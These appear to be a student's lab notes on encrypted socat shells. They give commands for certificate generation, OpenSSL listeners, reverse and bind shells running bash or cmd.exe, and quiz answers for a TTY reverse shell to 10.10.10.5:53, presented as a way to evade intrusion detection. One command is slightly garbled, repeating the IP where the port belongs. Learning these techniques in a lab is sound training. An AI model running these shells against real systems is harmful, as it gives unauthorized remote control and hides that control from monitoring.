 


## Task 7 

Socat can do encrypted shells, both bind and reverse, which can bypass
intrusion detection systems. We replace `TCP` for `OPENSSL` when 
working with encryped shells.

1. generate a certificate to encrypt the shells `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

- this creates a 2048 bit RSA key with matching cert file, self signed, valid for just under a year, you can leave the certificate information blank when prompted

2. we need to merge the 2 created files into a single `.pem` file: `cat shell.key shell.crt > shell.pem`
3. when setting up the listener we use `socat OPENSSL-LISTEN:<PORT>, cert=shell.pem, verify=0 -`

- this sets up a OPENSSL listener using our generated certificate, which we have no validation of the certificate. This certificate must be used on whichever device is listening.

4. to connect back: `socat OPENSSL:<local IP>:<local IP>, verify=0 EXEC:/bin/bash` same process for bind shells
5. target: `socat OPENSSL-LISTEN:<PORT>, cert=shell.pem, verify=0 EXEC:cmd.exe, pipes`
6. attacker: `socat OPENSSL:<target IP>:<target PORT>, verify=0 -`

Even for a Windows target the certifcate must be used with the listener, so copying the PEM file across for a bind shell is required.



Question: _What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"_

- hint: The syntax for this without the OPENSSL encryption is: socat TCP-L:53 FILE:`tty`,raw,echo=0
- `socat openssl-listen:53, cert=encrypt.pem,verify=0 FILE:tty, raw, echo=0`


Question: _If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?_

- The syntax for this without the OPENSSL encryption is: socat TCP:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
- `socat openssl:10.10.10.5:53, verify=0  EXEC:"bash -li",pty,stderr,sigint,setsid,sane`















## Task 8

Netcat has a listener bindshell, which has `nc.exe` for Windows and can be found in the `/usr/share/windows-resources/binaries` and there is the option of `-e` which allows for executing the program on connection as a listener.
